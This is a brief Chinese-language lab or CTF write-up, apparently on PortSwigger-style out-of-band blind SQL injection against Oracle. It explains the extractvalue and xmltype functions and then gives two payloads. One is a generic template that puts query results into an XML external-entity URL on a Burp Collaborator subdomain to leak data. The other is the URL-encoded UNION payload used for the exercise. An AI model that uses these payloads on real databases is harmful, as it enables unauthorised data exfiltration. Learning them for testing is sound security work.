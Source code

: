 `32wja67xqtddkxtz45o2`

## T14 OAST盲注

#### Oracle

- `extractvalue(目标XML文档，XML路径)`对XML文档进行查询的函数。

- `xmltype()`在Oracle 10g中是作为专门的保存XML格式

- 一般注入样例

  ```SQL
  SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') 
  FROM dual
  ```

  本题payload：

  ```SQL
  '+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
  ```
